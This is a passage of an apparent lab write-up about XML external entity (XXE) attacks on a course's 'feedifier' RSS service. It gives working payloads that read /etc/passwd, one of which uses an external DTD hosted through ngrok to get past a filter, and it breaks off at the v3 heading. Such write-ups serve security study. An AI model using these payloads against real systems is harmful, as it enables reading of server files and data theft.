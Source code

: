 *v1 feedifier input*
![](https://i.imgur.com/ivAtYXO.png)
*v1 exposing /etc/passwd*
```xml=
<!-- v1index.html -->
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0">
<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>RSS Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>&xxe;</description>
  </item>
</channel>
</rss>
```
#### v2.feedifier.quoccabank.com
- Since this XML parser filters only the first level of XML file, by simply using a external entity reference, we can bypass this filter.
- Using the python library `SimpleHTTPServer` we can set up a local web server to host our payloads. `python -m SimpleHTTPServer <port_number>`
- We can then use [ngrok](https://ngrok.com/) to expose our local server to the public. `./ngrok http <port_number>`
- We then pass the URL provided by [ngrok](https://ngrok.com/) into v2.feedifier.
![](https://i.imgur.com/LvCGodg.png) 
*v2 feedifier input*
![](https://i.imgur.com/CXd6lYi.png)
*v2 exposing /etc/passwd*
```xml=
<!-- v2index.html -->
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY>
  <!ENTITY % xxe SYSTEM "http://3cbf1917c733.ngrok.io/v2ParamInjection.dtd">
  %xxe;
]>
<rss version="2.0">
  <channel>
      <title>a1</title>
      <link>a1</link>
      <description>a1</description>
      <item>
      <title>a</title>
      <link>a</link>
      <description>&payload;</description>
      </item>
</channel>
</rss>
```
```xml=
<!-- v2ParamInjection.dtd -->
<!ENTITY % combined "<!ENTITY payload SYSTEM 'file:///etc/passwd'>">
%combined;
```
#### v3.feedifier.quoccabank.com
